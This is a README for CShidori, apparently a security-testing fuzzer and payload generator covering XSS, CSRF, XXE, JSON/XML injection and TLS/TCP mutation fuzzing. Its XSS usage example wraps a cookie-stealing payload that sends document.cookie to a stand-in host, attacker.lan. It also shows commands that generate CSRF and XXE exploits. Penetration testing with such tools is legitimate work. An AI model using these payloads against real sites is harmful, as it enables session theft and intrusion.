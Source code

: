 # CShidori

**Get Data and Fuzz Your App**

![](Intro.png)

## Real life vulnerabilities discovered by this tool

* Open Redirect: 1
* IDOR: 1
* XSS: 1
* Application Data Leak: 2

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* Taisen: [Website](https://taisen.fr)

* CShidori is part of [SIMPLE project (french)](https://github.com/Aif4thah/SIMPLE)


## Fuzzer and Data

### Fuzzer

* TLS Sockets (including HTTPS and other SSL/TLS encapsulated protocols)
* TCP Sockets (TCP layer and OSI 5,6,7 protocols, including HTTP )

### Data Generation Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* C
* Angular
* JavaScript

## Mutation Fuzzing

### TLS sockets

put your request in a text file (for HTTPS use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tls -o ..\testing\ZAP-Post-req.raw -i 127.0.0.1 -p 443
```

### TCP Sockets

put your request in a text file (for HTTP use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tcp -o ..\testing\burp.req -i 127.0.0.1 -p 80
```


## Data Generation

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
